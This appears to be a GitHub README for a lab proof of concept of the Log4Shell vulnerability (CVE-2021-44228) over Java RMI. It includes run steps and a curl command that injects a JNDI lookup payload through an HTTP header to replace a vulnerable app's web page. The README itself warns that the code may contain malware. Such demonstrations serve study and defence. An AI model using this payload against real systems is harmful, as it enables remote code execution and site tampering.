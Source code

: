 A minor change to the forked original:
1. Getting it to work
2. Getting it to work on a Linux VM with JDK 8
3. Limiting it to open its ports localy only

This code may contain malware and is known to contain vulnerabilities. 

Use at your own risk - if you use it, be advised to do that in a VM  - discard the VM after use.

# log4shell-rmi-poc
A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
<br/>
It uses Log4j 2.5.7 from spring-boot-starter-log4j2


## Requirements:

Tested with Java 8 (JDK 1.8.0_25) and Java 11 (JDK 11.0.1)

## How to run the POC

### 1. Clone the repo:
```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd Log4jshell_rmi_server

./startRmiServer.sh 
```

You should get something like this:

![rmi server](./rmi_server.png)


### 3. Start the vulnerable Log4j application (here a spring boot application)

In a new Terminal 

```bash
cd vulnerabel_log4j_app

./startVulnerableService.sh
```


### 4. Get the original site which is in vulnerabel_log4j_app/web

```bash

curl 'http://localhost:8080/web'
```
The original website is returned.


### 5. Inject a vulnerable JNDI over the "User-Agent" header 

```bash

curl 'http://localhost:8080/hello' --header 'Accept-Version: ${jndi:rmi://127.0.0.1:1099/ExecByEL}'
```

The website at  vulnerabel_log4j_app/web gets updated with the site from Log4jshell_rmi_server/web.


### 6. Get the malicious site from vulnerabel_log4j_app/web

```bash

curl 'http://localhost:8080/web'
```

The malicious website is returned.



## References 
https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
<br>
https://www.lunasec.io/docs/blog/log4j-zero-day/
